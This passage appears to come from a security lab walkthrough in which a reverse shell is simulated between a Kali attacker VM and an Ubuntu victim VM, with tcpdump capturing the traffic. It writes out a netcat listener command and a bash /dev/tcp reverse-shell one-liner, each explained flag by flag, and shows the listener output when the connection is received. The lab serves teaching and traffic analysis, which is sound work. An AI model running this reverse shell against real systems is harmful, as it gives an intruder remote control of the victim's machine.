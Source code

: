 1. Run the commands listed above on Monitoring Setup.
2. We´ll name the file `tcpdump` is going to write on: `reverse_shell.pcap`.

##
### ⚔️ Performing the Attack:

To simulate a reverse shell, we'll use **Netcat** (`nc`), a powerful networking tool available by default in Kali Linux and most Unix-like systems. 

#### Attacker (Kali) - Set up a listener 

On the **attacker’s machine (Kali)**, we open a listener on port `4444`, waiting for incoming connections:
```
nc -lvnp 4444
```

**Explanation:**
- `-l`: Listen mode (wait for incoming connections).
- `-v`: Verbose output (shows connection info).
- `-n`: Do not resolve hostnames (faster, avoids DNS lookup).
- `-p 4444`: Specify the port number to listen on (4444 in this case).

#### Victim (Ubuntu) - Trigger the reverse shell 

On the **victim machine (Ubuntu)**, the following command is executed (simulating a malicious script or phishing attack):
```
bash -i >& /dev/tcp/10.0.1.4/4444 0>&1
```
**Explanation:**

- `bash -i`: Starts an interactive bash shell.

- `>& /dev/tcp/10.0.1.4/4444`: Redirects input and output to a TCP connection with the attacker’s IP (`10.0.1.4`) and port `4444`. 

- `0>&1`: Redirects standard input to the same as standard output — completing the shell redirection.

##

### 🔁 Reverse Shell: Attack Analysis

Once the reverse shell connection is successfully established, the attacker gains direct command-line access to the victim’s machine. Below is a breakdown of what this looks like in practice:

### Attacker's Perspective:
```
┌──(azureuser㉿kali)-[~]
└─$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.1.5 42476

azureuser@ubuntu-vm:~$
```
- A connection is received from the victim's machine (`10.0.1.5`), indicating that the reverse shell has been initiated.
